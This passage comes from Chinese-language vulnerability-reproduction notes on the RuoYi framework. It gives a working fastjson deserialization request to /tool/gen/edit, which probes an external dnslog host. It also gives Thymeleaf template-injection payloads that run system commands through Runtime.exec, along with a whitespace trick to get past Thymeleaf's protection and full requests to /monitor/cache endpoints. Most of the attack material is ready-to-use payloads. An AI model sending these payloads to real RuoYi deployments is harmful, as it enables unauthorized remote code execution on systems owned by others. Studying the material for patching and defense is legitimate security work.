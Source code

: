 初看这个数据包一堆参数，有点复杂，根据之前的分析梳理一下，需要的参数是 tplCategory  
为tree  
，才能走到fastjson漏洞点  
,认真梳理一下需要的参数，发现还需要treeCode&treeParentCode  
参数，这块代码中全局搜索提示的缺少的内容的中文名称即可发现参数名称，填写上即可。  
  
最终简化后的数据包如下  
```
POST /tool/gen/edit HTTP/1.1Host: 172.16.0.66User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36Referer: http://172.16.0.66/tool/gen/edit/6Cookie: JSESSIONID=c229803b-e147-4853-ae79-df7e04dcd338X-Requested-With: XMLHttpRequestAccept: application/json, text/javascript, */*; q=0.01Accept-Encoding: gzip, deflateContent-Type: application/x-www-form-urlencoded; charset=UTF-8Origin: http://172.16.0.66Accept-Language: zh-CN,zh;q=0.9Content-Length: 3610tableName=111111&tableComment=111111&className=111111&functionAuthor=111111&&columns[0].javaType=Long&columns[0].javaField=infoId&&tplCategory=tree&treeCode=111111&treeParentCode=111111&packageName=111111&moduleName=111111&businessName=111111&functionName=111111&params[treeCode]=111111&params[treeParentCode]=1&params[treeName]={"@type":"java.net.Inet4Address","val":"11.hb4r0s.dnslog.cn"}
```  
# 0x08 SSTI模版注入漏洞  
#### 漏洞版本  
  
在4.7.1版本CacheController类中  
  
![[../S24-25赛季-大黑客之路/红队知识学习/assets/Y10 若依ruoyi/file-20250416135654610.png]]  
#### 漏洞复现  
  
模板注入漏洞payload：  
  
return内容可控：  
```
${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("calc").getInputStream()).next()}::.x
```  
  
URL路径可控：  
```
${T(java.lang.Runtime).getRuntime().exec("touch test")}::.x
```  
  
测试上述payload发现返回包返回500，具体情况是Thymeleaf3.0.12  
版本对这个版本进行了一些先知，防止模板注入漏洞，https://github.com/thymeleaf/thymeleaf/issues/809  
  
以下为防护的情况：  
  
我们将Payload改造一下，如${T (java.lang.Runtime).getRuntime().exec("calc.exe")}  
。在T和(之间多加几个空格即可，放入数据包中进行测试发现成功弹出计算器。  
  
这里为了方便演示，payload  
直接贴出来了，大家测试的时候记得进行URL  
编码。  
```
POST /monitor/cache/getNames HTTP/1.1fragment=__${T%20(java.lang.Runtime).getRuntime().exec('open -a calculator')}__::.x
```  
```
cacheName=123&fragment=${T (java.lang.Runtime).getRuntime().exec(“calc.exe”)}
```  
#### 接口/monitor/cache/getKeys  
#### 接口/monitor/cache/getValue  
#### 接口/demo/form/localrefresh/task  
# 0x09 若依4.8.0版本计划任务RCE  
### 环境搭建  
  